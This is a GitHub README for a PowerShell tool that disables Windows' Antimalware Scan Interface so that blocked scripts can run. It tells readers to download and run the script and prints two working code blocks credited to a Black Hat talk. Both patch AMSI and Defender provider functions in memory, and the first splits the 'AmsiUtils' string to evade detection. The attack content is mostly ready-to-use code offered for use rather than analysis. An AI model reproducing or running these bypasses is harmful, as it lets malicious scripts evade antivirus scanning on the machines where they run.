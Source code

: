 # bypass-amsi-powershell
<div align="center">
	<br />
	<p>
		<a href="#"><img src="./static/amsiarch.jpg" width="540" alt="AMSI Architecture" /></a>
	</p>
	<br />
	<p>
		<a href="https://discord.gg/ndjNzKCmff"><img src="https://img.shields.io/badge/discord-join-blue?style=flat-square&logo=discord" alt="My Discord server" /></a>
		<a href="https://github.com/luke-beep"><img src="https://img.shields.io/badge/github-view-blue?style=flat-square&logo=github" alt="My Github profile" /></a>
    </p>
</div>


AMSI stands for "Antimalware Scan Interface." It is a Microsoft Windows interface that allows antivirus and other security software to scan scripts and other types of content in memory, before they are executed. This allows the security software to detect and prevent the execution of malicious scripts, such as those used by malware or other types of cyber threats. AMSI was introduced in Windows 10 and is also supported in Windows Server 2016 and later versions. This script essentially breaks the AMSI protection by breaking one of the components in the AMSI chain.

This script can run on any of [these](./static/VERSIONS.md) versions of Windows.

### Usage
---

Simply download the [script](./script/bypass-amsi.dll.ps1) and run it in powershell. It will automatically bypass AMSI (Antimalware Scan Interface) and allow you to run any powershell script without being blocked by AMSI (Antimalware Scan Interface).

### Why does it work?
---

By breaking one of the chains as in this architecture, it allows the script to run without being blocked by AMSI (Antimalware Scan Interface). 

<a href="#"><img src="./static/amsiarch.png" width="540" alt="AMSI Architecture" /></a> 

### 1st Method by Maor Korkos
---

```powershell
Add-Type $APIs
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
$LoadLibrary = [APIs]::LoadLibrary("MpOav.dll")
$Address = [APIs]::GetProcAddress($LoadLibrary,
"DllGetClassObject")
$p = 0
[APIs]::VirtualProtect($Address, [uint32]6, 0x40, [ref]$p)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
$object = [Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils')
$Uninitialize = $object.GetMethods("NonPublic,static") | Where-Object Name -eq Uninitialize
$Uninitialize.Invoke($object,$null)
```
AMSI (Antimalware Scan Interface) Bypass created By Maor Korkos https://i.blackhat.com/Asia-22/Friday-Materials/AS-22-Korkos-AMSI-and-Bypass.pdf | Page 43


### 2nd Method by Maor Korkos
---

```powershell
[DllImport("amsi")]
public static extern int AmsiInitialize(string appName, out IntPtr context);
$SIZE_OF_PTR = 4; $NUM_OF_PROVIDERS = 2; $ctx = 0; $p = 0
$ret_zero = [byte[]] (0xb8, 0x0, 0x00, 0x00, 0x00, 0xC3)
[APIs]::AmsiInitialize("MyAmsiScanner", [ref]$ctx)
for ($i = 0; $i -lt $NUM_OF_PROVIDERS; $i++)
{
$CAmsiAntimalware = [System.Runtime.InteropServices.Marshal]::ReadInt32($ctx+8)
$AntimalwareProvider = [System.Runtime.InteropServices.Marshal]::ReadInt32($CAmsiAntimalware+36
+($i*$SIZE_OF_PTR))
$AntimalwareProviderVtbl = [System.Runtime.InteropServices.Marshal]::ReadInt32($AntimalwareProvider)
$AmsiProviderScanFunc = [System.Runtime.InteropServices.Marshal]::ReadInt32($AntimalwareProviderVtbl+12)
[APIs]::VirtualProtect($AmsiProviderScanFunc, [uint32]6, 0x40, [ref]$p)
[System.Runtime.InteropServices.Marshal]::Copy($ret_zero, 0, $AmsiProviderScanFunc, 6)
}
```

AMSI (Antimalware Scan Interface) Bypass created By Maor Korkos https://i.blackhat.com/Asia-22/Friday-Materials/AS-22-Korkos-AMSI-and-Bypass.pdf | Page 51


### Showcase

Showcase of this script in action

<a href="./static/amsibreaktutorial.png"><img src="./static/amsibreaktutorial.png" width="540" alt="Showcase" /></a>